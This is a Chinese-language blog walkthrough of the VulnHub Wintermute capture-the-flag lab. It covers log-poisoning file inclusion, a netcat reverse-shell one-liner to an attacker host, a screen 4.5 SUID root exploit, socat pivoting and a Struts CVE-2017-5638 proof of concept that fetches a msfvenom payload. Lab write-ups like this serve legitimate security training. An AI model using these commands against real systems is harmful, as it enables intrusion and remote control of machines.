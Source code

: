 ```yaml
---
layout: post
title: wintermute-本地文件包含到getshell
---
```


> Wild animals never kill for sport. Man is the only one to whom the torture and death of his fellow creatures is amusing in itself.——James Anthony Froude

先附上wintermute[下载地址](https://download.vulnhub.com/wintermute/Wintermute-v1.zip)  

简单介绍下wintermute ：**A new OSCP style lab involving 2 vulnerable machines**，有两个靶机, 第一个靶机是入口，有两个网卡，起到pivoiting的作用，第二个靶机有一个网卡，需要先入侵进第一个后通过第一个靶机才能和第二个靶机进行交流。


**_Victim1: 192.168.56.102_**
![图片](/pics/1586401635855.jpg)

80端口没有可利用，3000端口是ntopng流量监控平台通过默认用户名和密码登陆后可以看到一个奇怪的目录。
![](/pics/1586402049129.jpg)

进入后发现此页面
![](/pics/1586402845054.jpg)

可以推断?bolo这个参数后面的值是日志文件，而且根据提示此日志文件的后缀名是.log，但是url中并不需要输入.log后缀，可以通过html页面中进一步确定，说明bolo.php会自动在值的后面加入log后缀，进一步fuzz得出用%00这种空字节无法绕过，所以../../../../etc/passwd%00的方法无效。
![](/pics/1586403125152.jpg)

nmap端口显示端口25 Postfix smtpd开放，经过查询得知postfix默认log文件位于/var/log/mail.log中，所以是不是可以用污染邮件日志的方法来达到命令注入呢。

![](/pics/1586403587352.jpg)
![](/pics/1586403887017.jpg)
![](/pics/1586403890295.jpg)

通过tcpdump监听确定可以RCE后，直接用```mkfifo /tmp/p; /bin/sh 0</tmp/p | nc 192.168.56.1 1234 1>/tmp/p```来得到reverse shell, 虽然麻烦了点，但是一劳永逸，防止nc版本不对没有-e的选项。

1. 进入shell后通过查看suid文件 find / -user root -perm 4000 2>/dev/null得到存在screen 4.5
2. searchsploit screen 4.5
3. 通过exploit得到root后
4. 因为没有nmap，所以要自己编写ping sweep来查看第二个网卡存在的victim2
5. ping sweep必须要使用&进行background操作，不然速度太慢，具体的脚本如下  
for i in $(seq 1 255); do (ping -c 1 192.168.57.$i | grep "bytes from" &);done
6. 得到ip后继续写脚本查看开放的端口
nc -z -w 1 -n -v $ip 1-65535 
7. 得到三个端口开放后用可以编写脚本来查看banner情况
echo "QUIT" | grep nc $ip $port $port $port
8. 然后利用socat进行端口转发
socat tcp-listen:$port,fork tcp:$victim1:$port & 
socat tcp-listen:$port,fork tcp:$victim1:$port &
socat tcp-listen:$port,fork tcp:$victim1:$port &
9. 因为rce利用的是java.lang.Runtime@getRuntime所以管道符号不能使用,要用wget来进行下载，不能用nc
10. attaker上启动nc -lvp 1234准备监听
11. attacker上同时启动服务器，准备好msfvenom写好的reverse shell（这个reverse shell的LHOST是victim1)
11. victim1上转发代理，socat tcp-listen:1234,fork tcp:$attack:1234 &
12. 然后用attacker执行https://github.com/mazen160/struts-pwn此poc（CVE-2017-5638），注意url应该写victim1的因为已经做了转发，从victim1上下载attacker上准备好的reverse shell.
13. Over...